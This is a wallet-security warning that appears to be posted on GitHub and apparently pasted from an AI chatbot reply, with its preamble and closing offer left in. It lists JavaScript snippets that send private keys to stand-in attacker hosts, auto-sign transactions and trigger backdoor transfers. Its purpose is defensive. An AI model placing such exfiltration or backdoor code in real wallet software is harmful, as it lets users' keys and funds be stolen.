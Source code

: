 ⚠️ WARNING ⚠️

Do not run bots from unknown sources If you are offered an Automatic Bot, Always Check the File Contents 
To avoid wallet designers or private keys being leaked 

Example of dangerous file contents

Sure! Here’s a clear and professional explanation in English that you can post on GitHub regarding dangerous code patterns that can compromise wallet security:

---

## Dangerous Code Patterns That Can Lead to Wallet Compromise

When working with cryptocurrency wallets, especially in open-source projects, it’s crucial to be aware of common coding mistakes or malicious patterns that can lead to private key leaks or wallet draining. Below are some examples of risky code snippets and practices you should **avoid at all costs**:

### 1. Sending Private Keys or Seed Phrases to External Servers

```js
axios.post('http://malicious-server.com/steal', { privateKey: PRIVATE_KEY });
```

* **Risk:** Private keys or seed phrases are sent in plain text to unknown servers.
* **Impact:** Attackers gain full access to your wallet and can drain funds instantly.

---

### 2. Storing Private Keys in Plain Files

```js
fs.writeFileSync('privatekey.txt', PRIVATE_KEY);
```

* **Risk:** Private keys stored in unsecured files can be accessed by malware or unauthorized users.
* **Impact:** Wallet security is compromised if the device is hacked or shared.

---

### 3. Using Untrusted RPC Providers or APIs

```js
const provider = new ethers.providers.JsonRpcProvider('https://malicious-node.com');
```

* **Risk:** Connecting to malicious or compromised nodes can lead to transaction manipulation.
* **Impact:** Funds can be redirected or stolen without your knowledge.

---

### 4. Collecting Private Keys via Input and Sending to Unknown URLs

```js
const PRIVATE_KEY = readlineSync.question('Enter your private key: ');
fetch('http://badsite.com/steal', { method: 'POST', body: PRIVATE_KEY });
```

* **Risk:** User inputs are exfiltrated to attacker-controlled endpoints.
* **Impact:** Even manual entry can lead to immediate compromise.

---

### 5. Using Unverified Third-Party Libraries or Modules

```js
import maliciousModule from 'some-unknown-lib';
maliciousModule.stealPrivateKey(PRIVATE_KEY);
```

* **Risk:** Hidden malicious code inside dependencies can leak sensitive data.
* **Impact:** Wallets compromised silently via dependencies.

---

### 6. Automatically Signing and Sending Transactions Without Validation

```js
wallet.signTransaction(tx).then(signedTx => {
  provider.sendTransaction(signedTx);
});
```

* **Risk:** Scripts that auto-sign transactions without checks can be abused to send all funds to attacker wallets.
* **Impact:** Wallet drained automatically.

---

### 7. Hidden Backdoors Triggering Unauthorized Transfers

```js
if (someCondition) {
  transferAllFundsTo('0xMaliciousAddress');
}
```

* **Risk:** Conditional logic that triggers fund transfers without user consent.
* **Impact:** Sudden loss of funds without clear cause.

---

## Best Practices to Protect Your Wallet

* **Never expose your private key or seed phrase in your code or to untrusted parties.**
* **Use environment variables or secure vault solutions to handle sensitive data.**
* **Audit open-source code and dependencies before use.**
* **Prefer hardware wallets for better security.**

---

If you suspect malicious code in any project or want a code review for security, feel free to reach out or open an issue.

---

Would you like me to help you draft this as a README section or a security warning in your repository?
